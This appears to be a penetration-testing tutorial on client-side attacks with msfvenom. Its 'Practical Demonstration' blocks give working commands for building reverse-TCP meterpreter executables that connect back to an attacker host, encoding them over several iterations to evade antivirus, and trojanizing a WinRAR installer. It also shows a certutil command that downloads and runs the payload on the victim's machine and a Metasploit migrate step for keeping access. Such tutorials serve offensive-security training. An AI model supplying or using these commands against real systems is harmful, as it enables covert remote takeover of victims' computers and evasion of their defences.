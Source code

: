 # i - Payloads

## Generating Payloads With Msfvenom

**Client-side Attacks**

* A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.
* Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).
* Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

### **Msfvenom**

* Msfvenom is a command line utility that can be used to generate and encore MSF payloads for various operating systems as well as web servers.
* Msfvenom is a combination of two utilities, namely; msfpayload and msfencode.
* We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## **Practical Demonstration**

```bash
msfvenom -h # Open the msfvenom help page.
msfvenom --list payloads # List every Msfvenom payloads.
msfvenom --list formats # List every format Msfvenom can generate payloads with

# windows/x64/meterpreter/reverse_tcp is a staged payload.
# windows/x64/meterpreter_reverse_tcp is a non-staged payload.

msfvenom -a <x86 or x64> -p <payload> LHOST=$kali_ip LPORT=<localPort> -f exe > /home/kali/Desktop/payload.exe #Generate a payload with Msfvenom.

# We then have to transfer the payload to the target system and setup a listener to connect to it
# In Kali:
sudo python -m SimpleHTTPServer 80 #Start a web server in the current directory
msf5 > use multi/handler #Set up a listener
# In target system:
CMD > certutil -urlcache -f http://<localIP>/<file> <file> #Download the payload from the Kali HTTP server and execute it
# You then should receive a shell on your Kali!.
```



## Encoding Payloads With Msfvenom

**Encoding Payloads With Msfvenom**

* Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.
* Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.
* We can evade older signature based AV solutions by encoding our payloads.
* Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

**Shellcode**

* Shellcode (shell-code) is a piece of code typically used as a payload for exploitation.
* It gets it's name from the term command shell, whereby shellcode is a piece of code that provides an attacker with a remote command shell on the target system.

## **Practical Demonstration**

```bash
msfvenom --list encoders #List every Msfvenom encoders
msfvenom <...> -e <encoderName> <...> #Generate a payload and encode it.

#The more you encode a payload (number of iterations), the more you will have chances to succeed AV evasion. More than 10 will not to a lot though.
msfvenom <...> -i <numberOfIterations> -e <encoderName> <...> #Generate and encode a payload with more a specified number of iterations.
```



## Injecting Payloads Into Windows Portable Executables

### **Practical Demonstration**

```bash
msfvenom <...> -x <pathToPE> <...> #Inject the payload into a portable executable
# You can use the -k flag so the PE will execute as intended in addition to execute the payload BUT this will not work for most PEs

# The process
# we will be using the "winrar" application for windows.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kaliIP LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/winrar602.exe > winrar.exe
# transfer the "winrar.exe" to the victim.
# this will just run the payload when executed without running the actual setup, to get the file to run the actual setup, we have tospecify the "-k" option.

# in case of windows, we can use the [post/windows/manage/migrate] modult to migrate our session into another process in order for use to maintain access if the victim terminates the process.
msf6 > use post/windows/manage/migrate
```









